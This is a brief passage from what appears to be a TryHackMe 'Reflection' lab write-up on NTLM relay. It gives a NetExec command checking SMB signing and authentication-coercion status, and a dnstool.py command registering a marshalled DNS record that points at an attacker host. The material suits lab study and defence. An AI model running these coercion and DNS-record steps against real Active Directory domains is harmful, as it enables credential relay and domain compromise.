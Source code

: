 ![NTLM_Relay](TryHackMe_Reflection_port_Scan.jpg)

### Coercion check

Check SMB signing and coercion status with NetExec:

```
 netexec smb TARGET_IP -u sawan -p R3flect0r -M coerce_plus
```

![NTLM_Relay](TryHackMe_Reflection_NXC.jpg)

### DNS registration (marshalled record)

Add the marshalled DNS record pointing at the attacker:

```
 python3 dnstool.py -u 'reflection.thm'\\'sawan' -p 'R3flect0r' --action add \
  --record localhost1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA \
  --data ATTACKER_IP TARGET_IP
```

![NTLM_Relay](TryHackMe_Reflection_LDAP_Bind.jpg)
